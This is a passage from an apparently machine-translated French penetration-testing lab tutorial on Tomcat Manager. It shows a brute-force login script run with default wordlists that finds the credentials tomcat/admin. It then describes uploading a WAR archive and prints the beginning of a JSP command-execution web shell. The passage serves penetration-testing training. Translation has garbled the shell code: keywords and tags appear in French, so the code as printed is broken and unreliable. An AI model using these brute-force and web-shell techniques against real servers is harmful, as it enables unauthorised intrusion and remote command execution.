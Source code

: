 Nous pouvons essayer le script avec le fichier d'utilisateurs et de mots de passe Tomcat par défaut utilisé par le module Metasploit ci-dessus. Nous l'exécutons et obtenons un coup!

```
dsgsec@htb[/htb]$ python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt

[+] Attaquer.....

[+] Succès !!
[+] Pseudo : b'tomcat'
[+] Mot de passe : b'admin'

```

Si vous êtes intéressé par les scripts, consultez les modules [Introduction to Python 3](https://academy.hackthebox.com/course/preview/introduction-to-python-3) et [Introduction to Bash Scripting](https: //academy.hackthebox.com/course/preview/introduction-to-bash-scripting). Un exercice intéressant serait de créer nos propres scripts de connexion par force brute Tomcat Manager en utilisant Python et Bash, mais nous vous laisserons cet exercice.

* * * * *

Gestionnaire Tomcat - Téléchargement de fichiers WAR
--------------------------------

De nombreuses installations Tomcat fournissent une interface graphique pour gérer l'application. Cette interface est disponible sur `/manager/html` par défaut, à laquelle seuls les utilisateurs auxquels le rôle `manager-gui` a été attribué sont autorisés à accéder. Des informations d'identification de gestionnaire valides peuvent être utilisées pour télécharger une application Tomcat packagée (fichier .WAR) et compromettre l'application. Un WAR, ou Web Application Archive, est utilisé pour déployer rapidement des applications Web et un stockage de sauvegarde.

Après avoir effectué une attaque par force brute et répondu aux questions 1 et 2 ci-dessous, accédez à `http://web01.inlanefreight.local:8180/manager/html` et saisissez les informations d'identification.

![](https://academy.hackthebox.com/storage/modules/113/tomcat_mgr.png)

L'application Web du gestionnaire nous permet de déployer instantanément de nouvelles applications en téléchargeant des fichiers WAR. Un fichier WAR peut être créé à l'aide de l'utilitaire zip. Un shell Web JSP tel que [this](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) peut être téléchargé et placé dans l'archive.

Code : java

```
<%@ page import="java.util.*,java.io.*"%>
< %
//
// JSP_KIT
//
// cmd.jsp = Exécution de la commande (unix)
//
// par : Inconnu
// modifié : 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="monformulaire" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="soumettre" VALUE="Envoyer">
</FORM>
<pré>
< %
si (request.getParameter("cmd") != null) {
         out.println("Commande : " + request.getParameter("cmd") + "<BR>");
```
